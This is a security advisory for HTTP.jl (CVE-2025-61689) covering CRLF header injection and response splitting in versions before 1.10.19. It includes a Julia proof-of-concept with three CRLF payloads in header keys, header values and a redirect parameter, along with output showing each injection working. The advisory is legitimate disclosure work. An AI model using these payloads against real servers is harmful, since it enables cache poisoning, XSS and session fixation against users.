 ```toml
schema_version = "1.7.4"
id = "JLSEC-2025-40"
modified = 2025-10-14T04:37:19.606Z
published = 2025-10-14T04:37:19.606Z
aliases = ["GHSA-h3x8-ppwj-6vcj", "CVE-2025-61689"]

[[affected]]
pkg = "HTTP"
ranges = ["< 1.10.19"]

[[jlsec_sources]]
id = "GHSA-h3x8-ppwj-6vcj"
imported = 2025-10-14T02:22:26.408Z
modified = 2025-10-10T12:51:29.000Z
published = 2025-10-10T12:51:29.000Z
url = "https://api.github.com/repos/JuliaWeb/HTTP.jl/security-advisories/GHSA-h3x8-ppwj-6vcj"
html_url = "https://github.com/JuliaWeb/HTTP.jl/security/advisories/GHSA-h3x8-ppwj-6vcj"
```

# Header injection/Response splitting via header construction.

HTTP.jl did not validate header names/values for illegal characters, allowing CRLF-based header injection and response splitting.

```
using HTTP, Sockets

function handle_index(req::HTTP.Request)
    @show HTTP.header(req, "X-Foo")
    return HTTP.Response(200, "ok")
end

function handle_redirect(req::HTTP.Request)
    return HTTP.Response(301, ["Location" => get(HTTP.URIs.queryparams(req), "to", "/")], "redirect")
end

const router = HTTP.Router()
HTTP.register!(router, "GET", "/", handle_index)
HTTP.register!(router, "GET", "/redirect", handle_redirect)

server = HTTP.serve!(router, Sockets.IPv4(0,0,0,0), 8080)


println("[*] POC 1: Header injection in request through header key")
user_input = "X-Custom: x\r\nX-Foo: Bar\r\nX-Custom"
HTTP.get("http://localhost:8080/", [user_input => "hello"])

println()

println("[*] POC 2: Header injection in request through header value")
user_input = "hello\r\nX-Foo: Bar"
HTTP.get("http://localhost:8080/", ["X-Custom" => user_input])

println()

println("[*] POC 3: Header injection in response through header value")
res = HTTP.get("http://localhost:8080/redirect?to=/%0d%0aX-Foo:%20Bar", redirect=false)
@show HTTP.header(res, "X-Foo")

```

_Result_

```
[ Info: Listening on: [0.0.0.0:8080](http://0.0.0.0:8080/), thread id: 1
[*] POC 1: Header injection in request through header key
HTTP.header(req, "X-Foo") = "Bar"

[*] POC 2: Header injection in request through header value
HTTP.header(req, "X-Foo") = "Bar"

[*] POC 3: Header injection in response through header value
HTTP.header(res, "X-Foo") = "Bar"
```

### Impact

This enables HTTP response splitting and header injection, leading to cache poisoning, XSS, session fixation, and more.

### Patches

This issue is fixed in HTTP.jl  `v1.10.19`

### Credit

Chen T


